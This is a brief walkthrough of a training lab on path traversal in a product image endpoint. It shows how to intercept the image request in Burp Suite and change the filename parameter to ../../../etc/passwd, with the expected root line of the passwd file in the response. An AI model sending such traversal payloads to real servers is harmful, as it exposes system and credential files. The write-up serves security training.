 This lab contains a path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the /etc/passwd file.


![alt text](<Screenshot 2025-05-13 at 22.57.05.png>)



✅ Steps

Open the lab and intercept a request for a product image in Burp Suite:
GET /image?filename=31.jpg

Send the request to Repeater.

In Repeater, modify the filename parameter:
../../../etc/passwd

Final request:
GET /image?filename=../../../etc/passwd
Click Send, and check the Response tab.

If successful, the response will contain:
root:x:0:0:root:/root:/bin/bash

✅ Once /etc/passwd is displayed, the lab is solved.


